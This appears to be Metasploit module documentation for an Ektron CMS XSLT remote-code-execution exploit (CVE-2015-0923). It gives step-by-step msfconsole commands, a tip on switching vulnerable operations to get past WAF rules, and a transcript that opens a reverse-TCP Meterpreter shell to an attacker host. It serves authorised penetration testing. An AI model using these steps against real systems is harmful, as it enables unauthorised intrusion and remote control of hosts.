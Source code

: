 ## Vulnerable Application

  Ektron Content Management System (CMS) 8.5 and 8.7 before 8.7sp2 and 9.0 before sp1 (according to CVE-2015-0923)

## Verification Steps

  Ektron has been acquired by another company and finding installers may prove difficult. But if you can build a test network the following may be used to verify:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/ektron_xslt_exec_ws```
  4. Do: ```set RHOST [target ip]```
  5. Do: ```check```
  6. You should receive a target vulnerable message.
  7. Do: ```run```
  8. You should get a shell.

  In our experience testing against 64 bit hosts should still pass the 'check' in step 6 and return a target vulnerable message. But when injecting shellcode into a new thread it may require the tester to adjust the payload as well. This may be done as follows:

  1. Do ```set PAYLOAD windows/x64/meterpreter```

## Options

  These are important but perhaps less-used options. There are quite a few other 'web' options available which will not be discussed due to their generality.

  **TARGETOP**

  There are multiple operations which are vulnerable to this XSLT bug. We have enumerated more (likely all) of the operations in ServerControlWS.asmx and provide testers with the ability to test the additional options by setting this option to one of the following: ContentBlockEx, GetContentFlaggingString,GetMessagingString, GetBookmarkString, GetContentRatingString

  This value defaults to ContentBlockEx (from the original reports). Testers may find adjusting this value useful if defenders have included Web Application Firewall (WAF) rules to specifically filter ContentBlockEx as a mitigation in lieu of updating.

  **TARGETURI**

  This allows the tester to adjust the base-installation path. The default value is '/cms400min' but in our experience many deployments are simply the root path '/'.

## Scenarios

  Checking if a target is vulnerable.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable
  msf exploit(ektron_xslt_exec_ws) >
  ```

  Exploiting a Win7 x64 installation to obtain shell.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable.
  msf exploit(ektron_xslt_exec_ws) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
  PAYLOAD => windows/x64/meterpreter/reverse_tcp
  msf exploit(ektron_xslt_exec_ws) > set LHOST 192.168.1.50
  LHOST => 192.168.1.50
  msf exploit(ektron_xslt_exec_ws) > exploit
  [*] Started reverse TCP handler on 192.168.1.50:4444
  [*] Generating the EXE Payload and the XSLT...
  [*] Trying to run the xslt transformation...
  [+] Exploitation was successful
  [*] Sending stage (1189423 bytes) to 192.168.1.175
  [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.175:49169) at 2016-10-30 04:36:50 +0000

  meterpreter >
  ```
